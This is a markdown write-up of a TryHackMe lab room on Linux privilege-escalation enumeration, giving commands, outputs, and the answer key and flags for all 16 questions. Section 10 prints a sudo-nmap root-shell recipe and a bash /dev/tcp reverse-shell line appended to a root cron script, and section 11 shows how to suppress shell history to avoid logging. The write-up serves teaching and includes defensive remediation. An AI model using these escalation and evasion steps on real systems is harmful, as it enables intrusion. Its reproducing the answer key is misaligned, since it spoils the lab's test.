

# Room Documentation: Linux Privilege Escalation: Enumeration

---

## 1. Room Metadata & Overview

* **Learning Path:** Jr Penetration Tester
* **Module:** Module 13 — Privilege Escalation (`13-PRIVILEGE-ESCALATION`)
* **Room Name:** Linux Privilege Escalation: Enumeration
* **Room Slug:** `linprivenum`
* **Direct URL:** [TryHackMe Linux Privilege Escalation: Enumeration](https://tryhackme.com/room/linprivenum)
* **Difficulty Level:** Easy
* **Room Type:** Walkthrough & Hands-on Lab
* **Assessment Scenario:** Systematic, manual post-exploitation enumeration on an Ubuntu Linux target to uncover escalation pathways from an unprivileged user (`john`) to `root`
* **Total Tasks:** 7 Tasks
* **Total Questions:** 16 Questions (100% Solved and Verified)

---

## 2. Executive Summary

The **Linux Privilege Escalation: Enumeration** room provides the critical hands-on foundation for identifying privilege escalation vectors on Linux systems within the Jr Penetration Tester curriculum. Upon establishing an initial foothold, a penetration tester rarely acquires root privileges immediately; rather, access is typically restricted to a standard user account (e.g. `john`) or a low-privileged service daemon (`www-data`).

This room enforces a disciplined **Manual Enumeration** methodology utilizing native operating system utilities (Living-off-the-Land), bypassing the operational noise, excessive disk writes, and detection alarms generated by automated scanning scripts like LinPEAS. Across four core pillars, the operator interrogates the target environment:
1. **Operating System Enumeration:** Extracting system hostname, Linux kernel release (`6.8.0-1017-aws`), distribution version (`Ubuntu 24.04.1 LTS`), scheduled root cron jobs (`/root/backup.sh`), and installed security packages (AppArmor `4.0.1really4.0.1-0ubuntu0.24.04.3`).
2. **User & Identity Context:** Evaluating environment variables (`LANG=C.UTF-8`), recovering cleartext flags leaked in command history (`THM{history-is-not-safe}`), auditing administrative delegation rights via `sudo -l` revealing elevated access over `/usr/bin/nmap`, and mapping system user accounts in `/etc/passwd`.
3. **Network Architecture & Socket Enumeration:** Identifying active network interfaces (`ens5`) and uncovering internal listening daemons on loopback (`Port 53`).
4. **Filesystem Exploration:** Discovering hidden dotfiles in the user's home folder (`.secret.txt` containing `THM{not-so-hidden}`) and sifting through the filesystem to locate challenge artifacts (`/opt/TryHackMe.txt` containing `THM{found-the-flag}`) using advanced `find` filters.

---

## 3. Architectural & Enumeration Flow

The diagram below details the 4-pillar manual enumeration methodology and the identified escalation bridges:



---

## 4. Theoretical Foundations & Core Concepts

### Principles of Privilege Escalation:
* **Horizontal Escalation:** Gaining access to another user account with identical permission levels (e.g., pivoting from `web-developer` to `database-operator`).
* **Vertical Escalation:** Transitioning from an unprivileged or service account to full administrative control (`root` on Linux, `SYSTEM` on Windows).
* **The Role of Root Access:** Root access allows operators to read `/etc/shadow`, bypass discretionary and mandatory access control frameworks (DAC/MAC), edit system logging daemons, and install permanent rootkits or persistence hooks.

### Manual Living-off-the-Land vs. Automated Scanners:
* Automated tools like LinPEAS spawn hundreds of sub-processes and execute aggressive filesystem reads within seconds, creating identifiable telemetry spikes for Endpoint Detection & Response (EDR) platforms.
* Manual living-off-the-land commands (`uname`, `id`, `ss`, `find`, `cat`) are indistinguishable from legitimate system administrator workflows, ensuring stealth and deep contextual comprehension.

---

## 5. Operating System & Kernel Enumeration

Interrogating core system properties, kernel versions, and scheduled automation:

```bash
# 1. Print system hostname
hostname
# Output: linux-enumeration

# 2. Extract kernel release and architecture
uname -r
# Output: 6.8.0-1017-aws

# 3. Retrieve distribution release banner
cat /etc/issue
# Output: Ubuntu 24.04.1 LTS

# 4. Enumerate system-wide scheduled tasks
cat /etc/crontab
# Output: */5 * * * * root /root/backup.sh

# 5. Query installed AppArmor package version
dpkg -l | grep apparmor
# Output: 4.0.1really4.0.1-0ubuntu0.24.04.3
```

---

## 6. User Context, Environment, and Sudo Delegation

Examining credentials, environment variables, command history, and execution rights:

```bash
# 1. Enumerate active environment variables
env | grep LANG
# Output: LANG=C.UTF-8

# 2. Inspect historical terminal command records
cat ~/.bash_history
# Output: THM{history-is-not-safe}

# 3. Audit administrative privileges granted via sudo
sudo -l
# Output: (root) /usr/bin/nmap

# 4. Query system accounts to identify the Mailing List Manager
cut -d ":" -f 1,5 /etc/passwd | grep -i "mailing"
# Output: list:Mailing List Manager (Username: list)
```

---

## 7. Network Interfaces and Socket Enumeration

Mapping network interfaces and uncovering hidden internal services:

```bash
# 1. Enumerate network interfaces
ip link show
# Output: Non-loopback interface: ens5

# 2. Enumerate listening TCP and UDP sockets
ss -tulpn
# Output: Listening sockets on Port 22 (SSH) and Port 53 (systemd-resolved)
```

---

## 8. Filesystem Traversal and Permission Filtering

Utilizing `find` filters and wildcard searches to isolate sensitive artifacts:

```bash
# 1. Inspect hidden files in user home directory
ls -la /home/john
# Identified: .secret.txt
cat /home/john/.secret.txt
# Output: THM{not-so-hidden}

# 2. Search entire filesystem for files with 'tryhackme' in the name
find / -iname "*tryhackme*" 2>/dev/null
# Identified: /opt/TryHackMe.txt
cat /opt/TryHackMe.txt
# Output: THM{found-the-flag}
```

---

## 9. Task-by-Task Solutions & Breakdown

### Task 01: Introduction
* Establishes the operational goals of Linux privilege escalation and manual reconnaissance.
* **Answer:** `No answer needed`

### Task 02: What Is Enumeration?
* Connects to the target VM via SSH using credentials `john:john`.
* **Answer:** `No answer needed`

### Task 03: OS Enumeration
* **Question 1:** What is the hostname of the target host?
  * **Answer:** `linux-enumeration`
* **Question 2:** What is the Linux kernel version of the target host?
  * **Answer:** `6.8.0-1017-aws`
* **Question 3:** What version of Ubuntu is running on the host?
  * **Answer:** `Ubuntu 24.04.1 LTS`
* **Question 4:** What is the full path of the script run by root every 5 minutes?
  * **Answer:** `/root/backup.sh`
* **Question 5:** What is the full version of AppArmor?
  * **Answer:** `4.0.1really4.0.1-0ubuntu0.24.04.3`

### Task 04: User Enumeration
* **Question 1:** Print the environment variables. What is the value of LANG?
  * **Answer:** `C.UTF-8`
* **Question 2:** What is the flag in your history?
  * **Answer:** `THM{history-is-not-safe}`
* **Question 3:** What is the full path of the command you are allowed to run with elevated privileges?
  * **Answer:** `/usr/bin/nmap`
* **Question 4:** What is the username of the Mailing List Manager?
  * **Answer:** `list`

### Task 05: Network Enumeration
* **Question 1:** What is the name of the network interface, other than loopback?
  * **Answer:** `ens5`
* **Question 2:** What port, other than 22, is listening on the host?
  * **Answer:** `53`

### Task 06: File Enumeration
* **Question 1:** What are the contents of the secret file in your home folder?
  * **Answer:** `THM{not-so-hidden}`
* **Question 2:** Find a file that has TryHackMe in its name. What is its content?
  * **Answer:** `THM{found-the-flag}`

### Task 07: Conclusion
* Confirms completion of foundational Linux enumeration exercises.
* **Answer:** `No answer needed`

---

## 10. Security Analysis & Escalation Pathways (GTFOBins Deep Dive)

The enumeration performed in this room directly surfaced two critical attack surfaces:

### 1. Weaponizing `sudo /usr/bin/nmap`:
According to the **GTFOBins** database, allowing an unprivileged user to execute Nmap as root provides an instant, trivial root shell via the Nmap Scripting Engine (NSE):
```bash
# Generate a temporary Lua script that spawns an interactive root shell
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF

# Verification:
# whoami -> root
```

### 2. Exploiting Recurring Cron Automation (`/root/backup.sh`):
* If `/root/backup.sh` or its parent directory `/root` allows write access, an operator can append a reverse shell payload:
  ```bash
  echo "bash -i >& /dev/tcp/10.10.x.x/4444 0>&1" >> /root/backup.sh
  ```
* If the script calls external binaries (e.g., `tar`, `gzip`) without absolute paths, path hijacking can be performed by manipulating `$PATH`.

---

## 11. Operational Security & Best Practices

* **Native Execution Stealth:** Built-in shell commands (`uname`, `id`, `cat`, `ss`) generate standard system call telemetry, blending seamlessly with normal administrative operations.
* **Suppressing Command History:** When conducting live penetration testing, prevent your commands from being logged to `.bash_history` by executing:
  ```bash
  unset HISTFILE
  # or
  export HISTSIZE=0
  ```

---

## 12. Defensive Engineering & Remediation

1. **Strict Sudoers Delegation:** Never grant administrative execution rights for interactive binaries (such as `nmap`, `vim`, `find`, `less`, `awk`) to standard users. When delegation is unavoidable, enforce `NOEXEC` tags.
2. **Cron Job Hardening:** Ensure all scripts scheduled in `/etc/crontab` and `/etc/cron.*` are owned by `root:root` with permissions set strictly to `0700` or `0750`.
3. **Environment and History Hygiene:** Implement automated history rotation, disable command history persistence in production containers, and avoid passing cleartext secrets in command-line arguments.

---

## 13. Cheatsheet & Command Reference

| Enumeration Vector | Linux Command | Purpose |
| :--- | :--- | :--- |
| **System & Kernel** | `uname -a; cat /etc/os-release` | Identify architecture and kernel release for CVE matching |
| **Hostname** | `hostname` | Determine functional enterprise role |
| **Scheduled Tasks** | `cat /etc/crontab /etc/cron.*/*` | Uncover automated scripts executed as root |
| **Sudo Privileges** | `sudo -l` | List authorized root commands |
| **Command History** | `cat ~/.bash_history` | Recover leaked passwords, tokens, and operational paths |
| **Listening Sockets** | `ss -tulpn` | Identify internal services bound to `127.0.0.1` |
| **SUID Binaries** | `find / -perm -4000 -type f 2>/dev/null` | Discover executables running with file owner privileges |
| **Wildcard Search** | `find / -iname "*pattern*" 2>/dev/null` | Locate configuration files, keys, and flags |

---

## 14. References & Next Steps

1. [Linux Kernel Process Credentials](https://www.kernel.org/doc/Documentation/security/credentials.txt)
2. [Sudo Project Documentation](https://www.sudo.ws/docs/man/sudoers.man/)
3. [GTFOBins Nmap Privilege Escalation](https://gtfobins.github.io/gtfobins/nmap/)
4. [MITRE ATT&CK Discovery (TA0007)](https://attack.mitre.org/tactics/TA0007/)

### Next Room in Module 13:
Advance to Room 03:
**`03-LINUX-PRIVILEGE-ESCALATION-BASICS`** to weaponize SUID binaries, sudo rules, cron jobs, and capabilities into persistent root shells.
